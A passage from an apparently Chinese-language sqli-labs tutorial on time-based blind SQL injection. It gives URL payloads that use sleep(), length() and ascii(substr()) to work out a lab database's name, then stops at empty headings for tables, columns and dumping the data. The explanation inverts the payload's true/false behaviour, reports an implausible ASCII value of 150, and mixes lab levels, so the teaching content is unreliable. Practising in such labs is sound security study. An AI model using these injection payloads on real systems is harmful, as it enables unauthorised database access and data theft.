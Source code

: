 添加注释使之正常访问

```
http://192.168.1.76/sqli-labs/Less-8/?id=1' --+
```

### 10.2 爆库

判断数据库长度

> 通过使用 `length` 计算字段的长度判断真假（一个汉字为 3 个字符，一个数字或字母为 1 个字符）

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and if(length(database()) > 10,sleep(3),1) --+
```

> 最后得到数据库长度为 8

判断数据库名

```
http://192.168.1.76/sqli-labs/Less-8/?id=1' and if(ascii(substr(database(),1,1)) = 100,sleep(3),1) --+
```

> 当数据库的第一个字符 ascii 码长度为 100 时，则正常，否则休眠三秒
>
> 最后得到 ascii 码为 150

### 10.3 爆表

### 10.4 爆字段

### 10.5 拖库
